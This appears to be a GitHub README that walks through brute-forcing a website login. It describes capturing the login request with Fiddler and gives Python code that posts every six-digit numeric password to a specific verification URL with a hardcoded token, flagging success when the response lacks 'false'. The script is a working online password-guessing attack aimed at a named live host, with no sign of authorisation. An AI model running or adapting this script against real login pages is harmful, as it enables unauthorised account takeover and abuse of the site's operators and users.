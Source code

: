 # Main Steps
* Using Fiddler to capture the URL and th post pasckage when user logging in (Using whatever account names and passwords).
    <p align="center" >
        <img src="./Pictures/url.png", width='800'>
    </p>
    <p align="center" >
        <img src="./Pictures/fiddler.png", width='800'>
    </p>
* In python, fill the data in a form of the dictionary.
* Post the request
* From key words of the received messages from website, figure out whether logging succesfully.

# Reference
* [Two ways to post requests using python.](https://blog.csdn.net/qq_29113041/article/details/79084544)  
* [python 暴力破解密码脚本](https://www.cnblogs.com/cocoajin/p/3991227.html)
* [输入密码经过本地加密怎么办？](https://zhuanlan.zhihu.com/p/57375111)

# Example Code
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib.request

def tryLogin(pwd):

    data = {
        '_token':'tLjSpPwe8E8XtGHuKbDHCwwu1T28l6P7',
        'password': pwd
    }

    r = urllib.request.urlopen(
            url ='http://1003.ykzm.sxehny.cn/verify/1003',
            data = urllib.parse.urlencode(data).encode(encoding='UTF8')
    )
    
    response = str(r.read(), encoding = "utf-8")
    isFind = False
    if "false" in response: # 这里是对应网站的密码验证逻辑
        print('登陆失败',pwd)
        isFind = False
    else:
        print('登陆成功','password = ',pwd)
        isFind = True   
    return isFind 


# 暴力破解
for i in range(1000000):
    input = str(i).zfill(6)
    tryLogin(input)
```

